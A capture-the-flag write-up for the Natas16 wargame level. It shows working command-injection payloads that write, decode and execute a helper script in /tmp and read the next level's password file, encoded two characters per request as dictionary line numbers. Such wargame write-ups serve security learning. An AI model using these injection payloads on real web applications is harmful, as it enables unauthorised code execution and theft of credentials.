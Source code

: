 # Natas16

## Solution 1: exfiltrating the password 2-characters per request 

Vulnerabilities:
- Shell comannd injection using: $( ) and < >
- Read/Write/Execute access to /tmp folder

### Making use of large result set
This approach takes advantage of the large amount of possible return values, to minimize the number of requests needed to get the password.
In this case, only 16 requests were needed to exfiltrate the 32-characters password.

The file 'dictionary.txt' has 50253 unique rows, so an exploit can signal any value in the range 1-50253.
For example, to signal the value 9158 we can check what is the word that line in the dictionary => congratulations.
By providing _^congratulations$_ to the grep command, we should get the same word on the html output.
Wrapped with ^ and $ guarantees no characters before and after the search string.

On the client side, the response word could be the searched in a local copy of dictionary and the found line number would be the signaled number.

### "Shifter" Helper utility - pick one parameter from a list by its index
This bash script was needed to bypass pipes and quotes characters filters.
```
shift $1
echo $1
```

usage:
```
shifter.sh 3 100 200 300 400 500
```
will return 300

In order to install this script:
1. Encode it as base64.
```python
shifter_script = "shift $1\necho $1\n\n"
shifter_b64 = base64.b64encode(bytes(shifter_script,"ascii")).decode('ascii')
```

2. Write it to /tmp folder
```python
payload = f'$(echo -n {shifter_b64} > /tmp/shifter.b64)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```  

3. Base64 decode it
```python
payload = '$(base64 -d < /tmp/shifter.b64 > /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

4. Make it executable
```python
payload='$(chmod a+x /tmp/shifter.sh)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```

### Getting a copy of dictionary.txt
```python
r = requests.get(f'{base_url}/dictionary.txt', auth=auth)
diclines = r.text.splitlines() 
```

### Exfiltrating the password characters
Since the password has only ASCII characters (code < 128), each pair of characters packed as 16-bit unsigned intger would have the maximum value of:
127*256 + 127 = 32639. This fits nicely into the 50253 options available.

So, for each character pair, the request should perform:

* Convert the password string to a list of 16-bit unsigned int numbers (each pair of characters to a number)
```
od -An -tu2 -w64 < /etc/natas_webpass/natas17
```

* Pick a specific number from a list
```
/tmp/shifter.sh {index} {list of numbers}
```

* Search the dictionary for a specific line number:
```
sed -n {line_number}p < dictionary.txt
```

```python
matches = []
for pair in range(1,17): 
  payload=f'^$(sed -n $(/tmp/shifter.sh {pair} $(od -An -tu2 -w64 < /etc/natas_webpass/natas17))p < dictionary.txt)$'
  r = requests.post(base_url, data={"needle": payload}, auth=auth)
  reply_text = r.text.replace('\n', ' ').replace('\r', '')
  m = re.search('<pre>(.+)</pre>', reply_text)
  word = m.group(1).strip()
  matches.append(word)
```

Result processing:
The HTML result for each request is parsed using Regex to extract matching word.
That word is searched on the dictionary to get its line number.
The line number is split to two bytes that are converted to characters.

All the resulting characters are then combined to the target password

```python
elb = []
for m in matches:
  i = diclines.index(m)+1
  elb.append(i & 255)
  elb.append(i >> 8)

#password
print("".join([chr(c) for c in elb]))

#cleanup
payload = '$(rm /tmp/shifter.*)'
r = requests.get(f'{base_url}/?needle={quote(payload)})', auth=auth)
```
